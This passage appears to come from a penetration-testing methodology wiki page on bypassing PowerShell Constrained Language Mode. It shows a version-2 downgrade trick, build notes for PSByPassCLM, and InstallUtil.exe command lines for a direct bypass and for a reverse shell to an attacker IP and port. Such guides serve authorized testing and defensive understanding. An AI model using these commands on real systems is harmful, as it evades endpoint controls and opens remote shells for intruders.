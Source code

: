 {% content-ref url="active-directory-methodology/laps.md" %}
[laps.md](active-directory-methodology/laps.md)
{% endcontent-ref %}

## PS Constrained Language Mode

PowerShell [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) **locks down many of the features** needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more.

### **Check**

```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Bypass

```powershell
#Easy bypass
Powershell -version 2
```

In current Windows that Bypass won't work but you can use[ **PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**To compile it you may need** **to** _**Add a Reference**_ -> _Browse_ ->_Browse_ -> add `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` and **change the project to .Net4.5**.

#### Direct bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Reverse shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

You can use [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) to **execute Powershell** code in any process and bypass the constrained mode. For more info check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:
